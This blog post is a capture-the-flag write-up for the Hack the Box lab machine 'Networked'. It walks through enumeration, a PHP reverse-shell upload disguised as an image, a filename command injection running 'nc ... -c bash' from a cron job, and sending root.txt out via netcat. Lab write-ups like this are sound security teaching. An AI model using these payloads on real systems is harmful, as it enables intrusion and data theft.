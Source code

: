 +++
author = "Nick"
categories = ["basic", "cron", "CTF", "enumeration", "Linux", "netcat", "reverse shell", "web services", "PHP", "bash"]
date = 2019-11-16T16:47:06Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/08/info-5.png"
slug = "hack-the-box-networked"
summary = "Today we are going to go though the easy box, Networked. Lets get into it!"
tags = ["basic", "cron", "CTF", "enumeration", "Linux", "netcat", "reverse shell", "web services", "PHP", "bash"]
title = "Hack the Box - Networked"

+++


Today we are going to go though the easy box, Networked. This box was pretty unstable since it has just released a few days ago. Anyway, lets get into it!

You guessed it, we are starting it off with our standard nmap scan: ```nmap -sC -sV -oA networked 10.10.10.146```. Our results come back pretty basic. A denied port 443, ssh and http.

![](/images/2019/08/image-114.png)

We head over to see what website the box is serving and we see a standard web page.

![](/images/2019/08/image-92.png)

Source doesn't have much of anything aside from a hint of an uploader later on.

![](/images/2019/08/image-93.png)

So those pages could be active but not yet added to this page listing. We'll continue our enumeration with gobuster to see if any of the common results come back.

![](/images/2019/08/image-94.png)

We do indeed see some commonly named items. backup and uploads are good starts. We head over to backup and we find a backup.tar.

![](/images/2019/08/image-95.png)

We download the backup.tar and unzip it

![](/images/2019/08/image-96.png)

These .php files are all presumably live on our current host. So when we try to head over to photos.php, we do indeed have some content.

![](/images/2019/08/image-97.png)

Now all we have to do is check the source of these pages to see what is happening. Essentially upload.php is only letting us upload images types, change the underscores for periods and setting permissions.

![](/images/2019/08/image-99.png)

The lib.php has some interesting code for validating the file type. It also has a small snippet for validating a filename for an 'attack'.

![](/images/2019/08/image-100.png)

So our goal here is to simply upload a reverse shell and have it execute. The first thing we'll do is copy our [standard reverse php shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) file into our working directory. We'll then make a copy under the name 10_10_15_222.php.png since we know that the page with audit the filename and type. Now we'll modify the script accordingly.

![](/images/2019/08/image-101.png)

We also know that the lib.php is checking our file type. We can easily bypass this by adding GIF89a; at the header of our reverse shell. You can see other forms of file upload bypassing [here](https://github.com/xapax/security/blob/master/bypass_image_upload.md).

![](/images/2019/08/image-102.png)

Next we start up a Netcat session listing on our defined port. Then upload the file to the server.

![](/images/2019/08/image-103.png)

Next thing we know...

![](/images/2019/08/image-98.png)

We have a shell. Poking around a bit here doesn't have much. We see there is only 1 user, guly, when we look at /home. So lets see if we can LinEnum the machine. Head over to /tmp and download our file. In this case, wget is not on the machine, so we use ```curl -o lin.sh http://10.10.15.227/LinEnum.sh``` this time to get our file.

![](/images/2019/08/image-104.png)

We don't see much. We do see a file called check_attack.php in Guly's home directory. As we look at the file, we see what looks to be an easy command injection on line 30.

![](/images/2019/08/image-106.png)

We also have crontab.guly as well.

![](/images/2019/08/image-107.png)

So it seems that every 3 minutes, php is called to run check_attack.php. With these two combined we can create a netcat connection back to our machine!

We will head over to our upload directory. Here we will create a file. ```touch "; nc 10.10.15.227 9999 -c bash```. This will create a file that is called by the check_attack.php file. In this case, it will concatinate the ```rm -f``` command and execute our command, in this case, nc to our machine.

![](/images/2019/08/image-105.png)

Now that we have a shell as user, lets snag the flag! We upgrade our shell and start enumeration. We see that guly can run the following as root.

![](/images/2019/08/image-108.png)

When we look at the contents of this file, we see the following:

![](/images/2019/08/image-109.png)

So now that we know we can command inject in this script we can use it to get the root flag. Trying to cat /root/root.txt won't work out for us because of our regex expression list doesn't support a period. Now we could escape around it but it's actually easier to make a small shell script and call it.

![](/images/2019/08/image-111.png)

So here we echo our command into a file by using ```echo "cat /root/root.txt | nc 10.10.15.227 6969" > file```. The reason we are piping it to netcat is because I want the file on my attacking machine. So on our machine we start netcat listening on port 6969: ```nc -lvnp 6969 > root.txt``` then export it to root.txt.

Now all we do is call the same shell script as before but point it to our newly created script file:

![](/images/2019/08/image-113.png)

And we see our Netcat light up and receive the file.

![](/images/2019/08/image-112.png)

We have the flag!

Now we can use this same approach to do plenty of other things, this was just the fastest way to the flag. We could make a script to add ourselves to the sudoers file, copy ssh keys, create ssh keys or anything else because we are executing this command as root.

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

